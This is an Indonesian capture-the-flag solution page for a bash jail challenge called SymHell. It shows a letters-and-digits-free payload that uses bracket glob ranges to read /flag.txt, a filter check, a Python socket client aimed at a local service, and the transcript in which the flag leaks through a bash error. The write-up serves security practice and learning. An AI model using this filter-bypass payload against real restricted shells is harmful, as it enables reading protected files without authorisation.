


# SymHell — Penyelesaian

[← Overview](31-symhell.md) · [Index](index.md)

### 3.1 Strategi

1. Jalankan service lokal.
2. Siapkan `/flag.txt` berisi flag yang sudah diketahui (simulasi).
3. Kirim payload symbol-only.
4. Baca respons; flag muncul di pesan error bash.

### 3.2 Payload

```text
$(</[.-~][.-~][.-~][.-~].[.-~][.-~][.-~])
```

Cek filter:

```python
import re
payload = '$(</[.-~][.-~][.-~][.-~].[.-~][.-~][.-~])'
print(bool(re.search(r"[a-zA-Z0-9?*#]|\<{3}", payload)))
```

```text
False
```

### 3.3 Client uji

```python
import socket, time
payload = '$(</[.-~][.-~][.-~][.-~].[.-~][.-~][.-~])'
s = socket.create_connection(("127.0.0.1", 1337), timeout=5)
time.sleep(0.3)
s.sendall((payload + "\n").encode())
time.sleep(1.0)
data = b""
s.settimeout(2)
try:
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
except socket.timeout:
    pass
print(data.decode("utf-8", "replace"))
```

### 3.4 Output asli (transcript lokal)

```text
payload: $(</[.-~][.-~][.-~][.-~].[.-~][.-~][.-~])
forbidden present: False
--- raw response ---
  ██████╗ ██╗   ██╗███╗   ███╗██╗  ██╗███████╗██╗     ██╗
  ██╔════╝╚██╗ ██╔╝████╗ ████║██║  ██║██╔════╝██║     ██║
  ███████╗ ╚████╔╝ ██╔████╔██║███████║█████╗  ██║     ██║
  ╚════██║  ╚██╔╝  ██║╚██╔╝██║██╔══██║██╔══╝  ██║     ██║
  ███████║   ██║   ██║ ╚═╝ ██║██║  ██║███████╗███████╗███████╗
  ╚══════╝   ╚═╝   ╚═╝     ╚═╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
  ═════════════════════════════════════════════════════════════
  [!] EXTREME BASH JAIL (v3.0)
  -------------------------------------------------------------
  ✖ Letters [a-z, A-Z]   | ✖ Digits [0-9]
  ✖ Wildcards [?, *]     | ✖ Hash [#]
  ✖ Herestrings [<<<]    | ✔ Heredocs [<<] ALLOWED
  ═════════════════════════════════════════════════════════════

symhell▸ /usr/bin/bash: line 1: NFX{5ymH3ll_RUnT1m3_3v4l_53cr3t_PwN!}: command not found
symhell▸
```

### Evidence langkah ini



*Terminal evidence — `03-exploit-transcript.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `exploit_local.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-transcript.txt`](assets/symhell/03-exploit-transcript.txt)
- [`exploit_local.txt`](assets/symhell/exploit_local.txt)
